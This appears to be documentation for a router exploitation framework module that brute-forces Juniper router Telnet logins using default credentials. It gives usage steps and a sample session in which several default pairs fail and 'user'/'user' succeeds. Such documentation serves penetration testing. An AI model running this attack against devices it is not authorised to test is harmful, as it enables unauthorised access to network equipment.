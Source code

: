 ## Description

Module performs dictionary attack with default credentials against Juniper Router Telnet service.
If valid credentials are found, they are displayed to the user.

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use creds/routers/juniper/telnet_default_creds`
  3. Do: `set target [TargetIP]`
  4. Do: `run`
  5. If valid credentials are found, they are displayed to the user.

## Scenarios

```
rsf > use creds/routers/juniper/telnet_default_creds
rsf (Juniper Router Default Telnet Creds) > set target 192.168.1.1
[+] target => 192.168.1.1
rsf (Juniper Router Default Telnet Creds) > run
[*] Running module...
[*] Target exposes Telnet service
[*] Starting default credentials attack against Telnet service
[*] thread-0 thread is starting...
[-] Telnet Authentication Failed - Username: 'admin' Password: 'admin'
[-] Telnet Authentication Failed - Username: '1234' Password: '1234'
[-] Telnet Authentication Failed - Username: 'root' Password: '12345'
[-] Telnet Authentication Failed - Username: 'root' Password: 'root'
[+] Telnet Authentication Successful - Username: 'user' Password: 'user'
[*] thread-0 thread is terminated.
[*] Elapsed time: 5.389287948608398 seconds
[+] Credentials found!

   Target          Port     Service     Username     Password
   ------          ----     -------     --------     --------
   192.168.1.1     23       telnet      user         user

```
